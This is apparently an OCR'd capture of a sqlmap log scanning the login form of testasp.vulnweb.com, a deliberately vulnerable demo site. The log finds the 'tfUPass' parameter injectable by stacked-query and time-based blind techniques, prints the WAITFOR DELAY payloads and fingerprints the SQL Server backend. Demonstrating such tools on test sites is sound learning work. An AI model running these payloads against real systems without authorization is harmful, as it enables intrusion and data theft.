 ```shell
[13:26:55] [WARNING] heuristic test shows that POST parameter 'tfUPass' might not be injectable
[13:26:55] [INFO] testing sql injection on POST parameter 'tfUPass'
[13:26:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:27:02] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[13:27:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[13:27:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[13:27:10] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[13:27:12] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[13:27:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
[13:27:17] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[13:27:30] [INFO] POST parameter 'tfUPass' is 'Microsoft SQL Server/Sybase stacked queries' injectable
[13:27:30] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[13:27:31] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[13:27:31] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind'
[13:27:42] [INFO] POST parameter 'tfUPass' is 'Microsoft SQL Server/Sybase time-based blind' injectable
[13:27:42] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[13:27:48] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[13:27:48] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS
sqlmap got a 302 redirect to /Search.asp - What target address do you want to use from now on? http://testasp.vulnweb.com:80/Login.asp (default) or provide another target address based also on the redirection got from the application

>
[13:27:58] [INFO] target url appears to be UNION injectable with 2 columns
POST parameter 'tfUPass' is vulnerable. Do you want to keep testing the others? [y/N] N
sqlmap identified the following injection points with a total of 68 HTTP(s) requests:
---
Place: POST
Parameter: tfUPass
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: tfUName=test&tfUPass=test'; WAITFOR DELAY '0:0:5';-- AND 'mPfC'='mPfC

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: tfUName=test&tfUPass=test' WAITFOR DELAY '0:0:5'-- AND 'wpkc'='wpkc
---

[13:28:08] [INFO] testing MySQL
[13:28:09] [WARNING] the back-end DBMS is not MySQL
[13:28:09] [INFO] testing Oracle
[13:28:10] [WARNING] the back-end DBMS is not Oracle
[13:28:10] [INFO] testing PostgreSQL
[13:28:10] [WARNING] the back-end DBMS is not PostgreSQL
[13:28:10] [INFO] testing Microsoft SQL Server
[13:28:16] [INFO] confirming Microsoft SQL Server
[13:28:28] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2003
web application technology: ASP.NET, Microsoft IIS 6.0
back-end DBMS: Microsoft SQL Server 2005
[13:28:28] [WARNING] HTTP error codes detected during testing:
500 (Internal Server Error) - 42 times
[13:28:28] [INFO] Fetched data logged to text files under '/home/testuser/sqlmap/output/testasp.vulnweb.com'

[*] shutting down at: 13:28:28
```
